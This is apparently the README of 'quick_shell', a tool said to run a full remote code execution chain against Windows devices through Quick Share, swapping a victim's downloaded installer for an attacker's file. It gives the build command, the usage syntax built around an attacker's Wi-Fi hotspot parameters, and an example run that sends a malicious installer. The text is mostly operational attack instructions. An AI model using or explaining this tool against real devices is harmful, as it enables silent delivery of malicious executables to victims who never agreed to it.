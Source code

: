 # quick_shell

Implements the full RCE chain, replacing an installer executable downloaded by a victim’s Windows device through Quick Share.

## Build
Run:
```cmd
bazel build //quick_shell_rce_tool:quick_shell
```
The executable will be created in `./bazel-bin/quick_shell_rce_tool`

## Usage
Turn on the hotspot on the Windows attacker computer, and run:
```cmd
quick_shell.exe <AP_ssid> <AP_pass> <AP_ip> <AP_freq> <file_to_send_path>
```

### Parameters:

* `AP_ssid`: the ssid of the access point.
* `AP_pass`: the password required to connect to the access point.
* `AP_ip`: the ip address of the access point.
* `AP_freq`: the frequency of the access point (can be retrieved using tools like smartphones' wifi analyzers)
* `file_to_send_path`: path to the file that will be sent to the victim.

### Example of running quick_shell:
```
quick_shell.exe testing_ap my_password 192.168.1.10 2701 malicous_installer.exe
```

